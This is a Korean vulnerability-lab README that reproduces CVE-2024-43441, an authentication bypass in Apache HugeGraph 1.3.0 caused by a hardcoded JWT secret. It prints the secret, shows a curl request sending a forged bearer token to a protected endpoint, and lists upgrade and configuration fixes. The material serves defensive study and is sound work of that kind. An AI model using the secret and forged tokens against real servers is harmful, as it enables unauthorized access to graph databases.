



# CVE-2024-43441

**Contributors**

-   [김누리한(@HanTul)](https://github.com/HanTul)

<br/>

# Apache HugeGraph JWT 토큰 비밀 하드코딩으로 인한 인증 우회 (CVE-2024-43441)

Apache HugeGraph는 빠르고 확장성이 뛰어난 그래프 데이터베이스로, 엔터프라이즈급 안정성과 다양한 기능을 제공한다.
그러나 해당 제품의 JWT 인증 구현에서 심각한 취약점이 발견되었다.
인증 기능이 활성화되어 있음에도 불구하고 `auth.token_secret` 설정이 비어 있는 경우, HugeGraph는 기본값으로 **하드코딩**된 JWT 비밀 키(`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`)를 사용한다.
공격자는 이 기본 비밀 키를 이용해 유효한 JWT 토큰을 생성할 수 있으며, 이를 통해 인증을 우회하고 권한이 필요한 API 요청을 무단으로 수행할 수 있다.

참고 자료:

- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

## 환경 설정

다음 명령어를 사용하여 Apache HugeGraph 1.3.0 서버를 시작한다.

```
docker compose up -d
```

서버가 정상적으로 시작되면 RESTful API는 `http://your-ip:8080`에서 접근할 수 있다.
HugeGraph는 기본적으로 `HTTP Basic Authentication`과 `JWT Authentication` 두 가지 인증 방식을 지원한다.
Docker 컨테이너를 실행할 때 `PASSWORD` 환경 변수를 설정하면, 사용자 이름 `admin`과 해당 비밀번호를 이용해 HTTP Basic 인증으로 API에 접근할 수 있다.

## 취약점 재현

기본 관리자 비밀번호 외에도, HugeGraph는 `auth.token_secret`이 설정되지 않은 경우 **하드코딩된 기본 JWT 비밀 키**를 사용한다.
공격자는 이 기본 비밀 키(`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`)를 이용해 유효한 JWT 토큰을 생성하고, 인증을 우회하여 보호된 엔드포인트에 접근할 수 있다.

### 1. JWT 토큰 생성

`pyjwt` 라이브러리를 설치한 후 `token.py`를 실행한다.

```
pip install pyjwt
python3 token.py
```

**출력 예시:**



### 2. 보호된 엔드포인트 접근

인증 헤더 없이 API에 접근하면 아래와 같은 오류가 반환된다:

```
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```



생성된 JWT 토큰을 `Authorization: Bearer` 헤더에 포함하면 인증 없이 보호된 API에 접근할 수 있다:

```
curl -H "Authorization: Bearer <generated-token>" http://your-ip:8080/graphs
```



## 환경 종료

```
docker compose down
```

## 대응 방안

- HugeGraph를 **1.3.1 이상 버전**으로 업데이트한다.
- `auth.token_secret` 설정을 반드시 수동으로 지정하고, 충분히 복잡한 비밀 키를 사용한다.
- 인증 관련 설정을 환경 변수나 별도의 설정 파일을 통해 안전하게 관리한다.
